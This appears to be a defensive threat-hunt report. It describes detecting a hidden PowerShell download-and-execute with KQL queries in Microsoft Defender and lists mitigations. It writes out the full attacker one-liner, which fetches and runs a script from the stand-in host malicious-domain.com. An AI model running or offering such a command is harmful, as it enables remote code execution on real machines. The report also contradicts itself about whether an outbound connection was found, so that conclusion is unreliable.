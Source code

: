 # Threat Hunt Suspicious Powershell
# 🕵️ Threat Hunt Report: Suspicious PowerShell Download

**Date of Investigation:** July 18, 2025

---

## 🎯 Objective

Identify evidence of a user executing an obfuscated PowerShell script to download and run a remote payload — a common initial access or lateral movement tactic used by threat actors.

---

## 🔧 Environment

- **Endpoint OS:** Windows 10 Enterprise  
- **EDR Tool:** Microsoft Defender for Endpoint  
- **EDR Query Language:** Kusto Query Language (KQL)  
- **Target Machine:** `threat-windows-jgs`

---

## 🛠️ Suspicious Activity

### 🦠 Observed Behavior

An attacker used PowerShell to download and execute a script from a remote host using `Invoke-WebRequest` and `IEX` in a hidden and non-interactive session.

---

## 📌 Indicators of Compromise (IOCs)

| Type               | Value                                            |
|--------------------|--------------------------------------------------|
| Process            | `powershell.exe`                                 |
| CommandLine Flags  | `-nop`, `-w hidden`, `IEX`, `DownloadString`     |
| Remote Domain      | `http://malicious-domain.com/dropper.ps1`       |
| File Path (payload)| `C:\Users\Public\dropper.ps1`                    |

---

## 📂 Step-by-Step Simulation (What the "Bad Actor" Did)

```powershell
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious-domain.com/dropper.ps1')"
```

1. Opened PowerShell with non-interactive settings  
2. Downloaded a script using `Net.WebClient`  
3. Executed the script using `Invoke-Expression (IEX)`  
4. Payload likely executed and/or downloaded additional malware  

---

## 🧪 KQL Threat Hunting Queries

### 🔍 Query 1: PowerShell Command Line Analysis – Detect Obfuscated PowerShell Command

```kql
DeviceProcessEvents
| where devicename contains "threat-windows"
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_all ("-nop", "hidden", "DownloadString", "New-Object")
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
```

---

### 🔍 Query 2: URL Connection by PowerShell

```kql
DeviceNetworkEvents
| where devicename contains "threat-windows"
| where InitiatingProcessFileName =~ "powershell.exe"
| where RemoteUrl contains "malicious-domain.com"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteUrl, ReportId
```

> **Note:** We did not find any outbound HTTP connection to `malicious-domain.com`.

---

## 🚨 Findings

- **Command Line Match:** Found obfuscated PowerShell commands  
- **Remote Connection:** Outbound HTTP connection to `malicious-domain.com`  
- **Persistence/Impact:** None observed yet — investigation continues  

---

## 🛡️ Mitigations & Next Steps

- Block domain `malicious-domain.com` in firewall/proxy  
- Add PowerShell audit logging: `ScriptBlockLogging` + `ModuleLogging`  
- Use AppLocker or WDAC to restrict script execution  
- Educate users on phishing & script-based threats  
- Enable AMSI integration for real-time script scanning  

---

## ✅ Summary

This hunt successfully identified potential malicious PowerShell activity consistent with known initial access techniques. While no evidence of outbound HTTP connection to `malicious-domain.com` was found, the domain was proactively blocked. No lateral movement or additional payloads were detected yet. Environment lockdown and endpoint isolation is recommended if the activity was unauthorized.
